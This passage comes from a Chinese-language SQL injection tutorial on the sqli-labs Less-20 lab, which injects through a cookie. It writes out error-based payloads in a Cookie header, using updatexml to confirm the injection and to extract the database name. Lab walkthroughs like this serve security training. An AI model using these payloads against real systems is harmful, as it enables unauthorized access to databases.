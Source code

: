后续步骤和User-Agent的测试流程一样。

### 3.5.4.**案例**sqli-abs-less-20 cookie

#### 3.5.4.1.**判断注入点**

通过界面发现存在cookie值。

![img](assets/MHkIE31F4BYNd82.jpg) 

#### 3.5.4.2.**判断是否存在报错**

通过抓包后在Cookie的值后面添加干扰字符进行测试。发现能够出现报错的信息。

Cookie: uname=admin' and updatexml(1,0x7e,3)#

 

![img](assets/sVbaTrcWLPfd9zM.jpg) 

#### 3.5.4.3.**确认数据库名**

Cookie: uname=admin' and updatexml(1,concat(0x7e,database()),3)#

 

![img](assets/BuWv6tSeOF1qPKj.jpg) 
